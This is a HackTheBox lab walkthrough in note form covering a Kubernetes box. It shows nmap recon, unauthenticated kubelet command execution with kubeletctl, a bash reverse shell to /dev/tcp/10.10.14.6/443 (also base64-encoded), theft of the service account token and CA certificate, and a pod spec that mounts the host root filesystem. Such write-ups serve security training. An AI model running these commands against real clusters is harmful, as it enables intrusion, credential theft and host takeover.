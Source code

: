 # recon
- **nmap -p- --min-rate 10000 -oA scans/nmap-alltcp  10.10.11.133**
- found seven open TCP ports, SSH (22), Kubernetes (2379, 2380, and 8443), and InfluxDB (10249, 10250, and 10256)
- **nmap -p 22,2379,2380,8443,10249,10250,10256 -sCV -oA scans/nmap-tcpscripts 10.10.11.133**
- Based on this [Doc](https://kubernetes.io/docs/reference/networking/ports-and-protocols/) not only are 2379 and 2380 a part of Kubernetes, but the ports that nmap labeled as InfluxDB are as well.
- Based on some of the names, this seems like an instance of minikube
- **Kubernetes manages large deployments of containers.**
- TCP 8443 is the main API server for the cluster
- A kubelet is an agent running on each node that controls it, and typically listens on TCP 10250
 ![kub](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/kub.png)
- Visiting the service in Firefox returns an HTTP 403 with a JSON body
- a message says The anonymous user can’t /
- kubectl prompts for auth so deadend
- There’s a tool like kubectl for kubelets, kubeletctl. After installing it based on the instructions from the README, I’ll try the pods command to list all the pods on the node.
- **kubeletctl pods -s 10.10.11.133**
- The runningpods command gives a bunch of JSON about the running pods: **kubeletctl runningpods -s 10.10.11.133**
- use jq to get a list of the name and namespace:
  - **kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'**
- There’s only one that’s not in the kube-system namespace.
# Shell
- ith access to the kubelet service, I can also run commands on the containers. I’ll use the exec command in kubeletctl, giving both the name of the pod (nginx) and the name of the container (nginx)
- **kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx**
- we are rood
- As root, I can read the user.txt in the /root directory
- **kubeletctl -s 10.10.11.133 exec "ls /root" -p nginx -c nginx**
- **kubeletctl -s 10.10.11.133 exec "ls /root/user.txt" -p nginx -c nginx**
- there is bash in the machine but it won’t do a bash reverse shell
- Thinking it might be bad characters, I tried encoded the reverse shell **echo "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" | base64 -w0**
- **kubeletctl -s 10.10.11.133 exec 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash' -p nginx -c nginx**
- It doesn’t seem to handle the pipes well and Neither curl nor wget seem to be in the container
- after several search It turns out there’s a much simpler way to get a shell - just issue the bash (or sh) command
- **kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx**
- We’re going to create our own highly privileged service account. First, we need to grab the token and cert
- **kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt**
- **kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token**
- To use kubectl, I’ll save the token in an environment variable, token (to save a lot of copy and pasting)
- **export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)**
- Now I can pass the ca.crt file and the token to kubectl and it doesn’t ask for a username and password
- **kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod**
- get pod returns information about the running pod!
- The auth can-i command in kubectl is used to see if a given account can take some action. With the -list flag, it will show all permissions
- **kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token**
- The important line is the third one, which says this account can get, create, and list pods
- I’ll grab the details of the current nginx container
- **kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token**
- There’s a ton of information here, but the two key parts I need:
   - namespace is default
   - image is nginx:1.14.2
- grab yaml file from prevous machine and upadate it for this scenario
- ```
  apiVersion: v1 
kind: Pod
metadata:
  name: 0xdf-pod
  namespace: default
spec:
  containers:
  - name: 0xdf-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

